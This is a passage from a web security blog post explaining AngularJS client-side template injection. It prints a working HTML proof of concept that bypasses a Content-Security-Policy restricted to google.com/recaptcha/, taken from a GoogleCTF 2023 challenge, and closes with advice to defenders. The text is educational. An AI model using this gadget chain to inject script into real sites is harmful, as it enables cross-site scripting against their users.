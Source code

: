Therefore, you can think of it as AngularJS implementing its own `eval` to execute strings as code without using these default functions.

When discussing bypassing CSP earlier, I mentioned that by making the path configuration more strict, you can "reduce the risk" rather than "completely eliminate the risk." An example I gave was setting it to `https://www.google.com/recaptcha/` instead of `https://www.google.com`.

In fact, in the GoogleCTF 2023, there was a challenge to bypass the CSP of `https://www.google.com/recaptcha/`, and the solution used AngularJS. This is why I said that a strict path can reduce the risk but cannot completely avoid it:

``` html
<!DOCTYPE html>
<html lang="en">
<head>
  <meta http-equiv="Content-Security-Policy" content="script-src https://www.google.com/recaptcha/">
</head>
<body>
  <div
    ng-controller="CarouselController as c"
    ng-init="c.init()"
  >
  [[c.element.ownerDocument.defaultView.alert(1)]]
  <div carousel><div slides></div></div>

  <script src="https://www.google.com/recaptcha/about/js/main.min.js"></script>
</body>
</html>
```

If you are interested in AngularJS CSP bypass, you can refer to my previous article: [Automatically Finding Alternatives to prototype.js in AngularJS CSP Bypass](https://blog.huli.tw/2022/09/01/angularjs-csp-bypass-cdnjs/), which introduces another bypass method.

## Conclusion

The CSTI discussed this time is also a type of "non-direct execution of JavaScript" attack.

When you encode all the output and think it is secure, but forget that your frontend has AngularJS, attackers can achieve XSS through seemingly secure `{{}}` using CSTI.

Although there are fewer and fewer websites using AngularJS now, and fewer people treat user input as part of the template, the world is not lacking in vulnerabilities, but in discoveries. Many vulnerabilities have simply not been discovered yet.

If your service uses AngularJS, make sure there are no CSTI issues.
